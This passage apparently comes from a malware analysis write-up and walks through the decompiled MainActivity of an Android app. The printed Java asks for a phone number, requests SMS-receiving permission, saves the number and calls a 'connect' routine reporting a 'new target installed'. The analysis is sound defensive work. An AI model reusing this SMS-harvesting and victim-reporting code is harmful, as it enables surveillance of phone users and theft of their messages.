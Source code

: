 The first activity to get executed is always `MainActivity` (We also saw it in the manifest), so let's start there:

```java
package ir.siqe.holo;  
  
import android.content.Intent;  
import android.content.SharedPreferences;  
import android.os.Bundle;  
import android.view.View;  
import android.widget.EditText;  
import android.widget.Toast;  
import androidx.appcompat.app.AppCompatActivity;  
import androidx.core.app.ActivityCompat;  
  
public class MainActivity extends AppCompatActivity {  
    public void onCreate(Bundle bundle) {  
        super.onCreate(bundle);  
        setContentView(R.layout.activity_main);  
        SharedPreferences.Editor edit = getSharedPreferences("info", 0).edit();  
        findViewById(R.id.go).setOnClickListener(new View.OnClickListener(this, (EditText) findViewById(R.id.idetify_phone), edit) {
            final MainActivity this$0;  
            final EditText val$editText;  
            final SharedPreferences.Editor val$editor;  
  
            {  
                this.this$0 = this;  
                this.val$editText = r5;  
                this.val$editor = edit;  
            }  
   
            public void onClick(View view) {  
                if (!this.val$editText.getText().toString().matches("(\\+98|0)?9\\d{9}")) {  
                    Toast.makeText(this.this$0, "شماره موبایل معتبر نیست", 0).show();  
                    return;  
                }  
                ActivityCompat.requestPermissions(this.this$0, new String[]{"android.permission.RECEIVE_SMS"}, 0);  
                if (Integer.valueOf(ActivityCompat.checkSelfPermission(this.this$0, "android.permission.RECEIVE_SMS")).intValue() == 0) {  
                    this.val$editor.putString("phone", this.val$editText.getText().toString());  
                    this.val$editor.commit();  
                    new connect(this.val$editText.getText().toString(), "تارگت جدید نصب کرد", this.this$0);  
                    this.this$0.startActivity(new Intent(this.this$0, MainActivity2.class));  
                }  
            }  
        });  
    }  
}
```
